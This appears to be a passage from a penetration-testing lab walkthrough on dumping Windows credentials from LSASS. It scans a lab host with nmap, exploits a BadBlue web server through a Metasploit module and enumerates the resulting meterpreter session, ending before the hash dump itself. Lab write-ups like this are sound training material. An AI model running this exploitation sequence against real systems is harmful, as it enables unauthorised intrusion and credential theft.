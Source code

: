LSASS stands for the local security authority subsystem and this process on Windows is used for authentication and verification of credentials. And for that reason, it interacts with the SAM database. This process has a cache. A cache is typically where a program will store temporary data. Attackers and pentesters will typically utilize in-memory techniques to dump the SAM hashes from the LSASS process cache, because the LSASS process is being utilized for verification of credentials and authentication, it will go and check the SAM database and it stores that information in its cache and if we can gain access to that cache, then we can get the hashes that are stored in that cache and consequently crack them.

Target IP Address: 10.2.19.189

```
nmap -sV -p 80 10.2.19.189
```

This command runs the Nmap tool with the following options:
- `-sV`: Enables version detection for any services running on the target host
- `-p 80`: Specifies that Nmap should only scan port 80 on the target host
- `10.2.19.189`: The IP address of the target host to be scanned.

In summary, this command will scan port 80 on the target host and attempt to determine the version of any services running on that port.

```
searchsploit BadBlue
```

```
msfconsole
search BadBlue
use exploit/windows/http/badblue_passthru
```

The default payload is the 32-bit meterpreter payload.

```
show options
set RHOSTS 10.2.19.189
exploit
```

Let's perform some basic local enumeration.

```
meterpreter > sysinfo
```

It is a 64-bit operating system and we have a 32-bit meterpreter session.

```
meterpreter > getuid
```

We currently have access to the target system as the administrator user.

```
meterpreter > getprivs
```

We have the permissions that you typically associate with the administrator user. So that means that we do not need to elevate our privileges and can consequently move on to the next phase, which is dumping the NTLM hashes.
